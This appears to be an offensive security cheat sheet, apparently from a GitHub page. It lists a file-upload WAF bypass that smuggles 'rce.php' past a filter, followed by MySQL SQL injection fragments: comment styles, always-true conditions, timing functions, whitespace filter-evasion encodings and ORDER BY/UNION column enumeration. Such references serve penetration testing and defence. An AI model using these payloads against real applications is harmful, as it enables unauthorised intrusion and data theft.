 ## File Upload WAF Bypass
```
/?file=rce.php <– Blocked
/?file=rce.php.jpg <– Blocked
/?file=rce.php5 <– Blocked
/?file===rce.php <– Bypassed 200 OK
```

---
## <span style="color:#21C587"></span> SQL Injection<br>
<span style="color:#21C587">&#35;</span><strong> MySQL</strong><br>
```
- comments
#
--
/**/

- like
1=1, 1 in(1), 1 like 1, !(1<>1)

- count func
count()

- version check
@@version
version()
@@innodb_version;

- string split
mid()
right(left())
substr()
substring()

- sleep func
sleep(5), benchmark(40000000,md5(1));

- string to hex
ascii()
ord()

- add string
concat()
group_concat()

- string to hex
'admin' = 0x61646d696e

- whitespace bypass
%0a, %a0, %20, %09, %0d, %0c, %b, /**/, ()

- Conditional
if(1=1, 1, 0), case when 1=1 then 1 else 0 end;

- length func
length(), char_length(), character_length()

- Number of columns
' order by 1 --
' order by 2 --
' order by 3 --
' union null --
```